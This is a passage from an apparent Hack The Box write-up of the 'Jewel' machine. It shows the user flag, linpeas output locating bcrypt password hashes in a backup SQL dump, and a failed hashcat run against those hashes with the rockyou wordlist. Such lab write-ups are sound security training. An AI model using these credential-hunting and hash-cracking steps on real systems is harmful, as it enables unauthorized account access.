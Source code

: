 ### User.txt

```text
bill@jewel:~$ cat user.txt 
9688e08ab337fd2944c921e8dd4383b2
```

I was happy to see that `bill` had the `user.txt` flag in his home directory!

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `bill`

```text
[+] Searching specific hashes inside files - less false positives (limit 70)
/var/backups/dump_2020-08-27.sql:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO          
/home/bill/blog/bd.sql:$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
```

linpeas pointed out that there were a couple of files with password hashes. The second one was one that I had tried to crack unsuccessfully before, but the other was new. Since it was in a backups folder, it was possible that this was an old password that was used elsewhere

![](/assets/img/5-db-backup.png)

I copied the backup SQL file to my local machine and opened it up. There were a couple of new hashes in it, which I loaded into hashcat to try to crack.

```text
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ hashcat -O -D1,2 -a0 -m3200 --username hash_backup  /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

Kernel /usr/share/hashcat/OpenCL/m03200-optimized.cl:
Optimized kernel requested but not needed - falling back to pure kernel

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Failed to parse hashes using the 'native hashcat' format.
Failed to parse hashes using the 'native hashcat' format.
No hashes loaded.

Started: Sun Feb 14 18:04:00 2021
Stopped: Sun Feb 14 18:04:00 2021
```